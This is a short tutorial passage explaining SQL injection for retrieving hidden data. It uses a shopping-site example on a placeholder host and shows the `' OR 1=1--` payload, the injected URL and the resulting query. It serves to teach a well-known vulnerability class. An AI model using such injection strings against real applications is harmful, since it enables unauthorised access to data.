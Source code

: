 # Retrieving hidden data

Consider the following scenario.

A shopping application that displays products in different categories, making a request to the URL:

```
https://insecure-website.com/products?category=Gifts
```

The application executes an SQL query to retrieve the details of products from the database.

```
SELECT * FROM products WHERE category = 'Gifts' AND released = 1
```

In this scenario if the application doesn't implement defenses against SQL injection attacks all products can be retrieved from the database using an always true statement.

### Always true statement and comment indicator on SQL

The attack string is `OR 1=1 --`  , where `OR 1=1` is an always true statement that will retrieve all items. 
If the attacker can inject the statement and the `--` characters make the rest of the query to be an SQL comment. Thus controlling the query and making it possible to retrieve hidden data from the database.

### Injection on URL

```
https://insecure-website.com/products?category=Gifts'+OR+1=1--
```

### Resulting query to the database

```
SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1
```

